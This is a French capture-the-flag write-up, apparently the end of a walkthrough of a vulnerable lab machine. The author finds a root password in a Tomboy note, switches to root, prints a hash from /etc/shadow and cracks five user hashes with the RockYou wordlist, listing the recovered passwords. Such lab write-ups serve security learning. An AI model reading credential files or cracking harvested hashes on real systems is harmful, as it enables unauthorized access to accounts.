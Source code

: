 Visiblement *Patrick* est l'administrateur... Nous allons fouillez dans son répertoire personnel en détail.  

Finalement je trouve un dossier *.tomboy* qui correspond à [une application de prise de notes Gnome-powered](https://wiki.gnome.org/Apps/Tomboy).  

Or une note est particulièrement intéressante :  

```html
[amy@localhost .tomboy]$ cat 481bca0d-7206-45dd-a459-a72ea1131329.note 
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
  <cursor-position>15</cursor-position>
  <width>450</width>
  <height>360</height>
  <x>0</x>
  <y>0</y>
  <open-on-startup>False</open-on-startup>
</note>
```

F\*\*tus beatniks :D Il n'y a plus qu'à passer root via su :  

```plain
[amy@localhost ~]$ su 
Mot de passe : 
[root@localhost amy]# id
uid=0(root) gid=0(root) groupes=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:system_r:unconfined_t:s0
[root@localhost amy]# head -1 /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
```

Les hashs présents dans /etc/shadow se cassent facilement avec la wordlist de *RockYou* (visiblement l'auteur du CTF aime bien cette liste et utilise les mots de passe trouvés dedans pour ses autres CTFs) :  

```plain
Loaded 5 password hashes with 5 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
50$cent          (cyrus)
buckyboy         (loren)
homebrew         (jennifer)
marvin1          (andy)
ne1410s          (patrick)
guesses: 5  time: 0:00:20:01 DONE (Mon Jul 14 16:13:48 2014)  c/s: 35139  trying: ne14101s - NE1469
```

Pwned!

*Published July 21 2014 at 19:11*
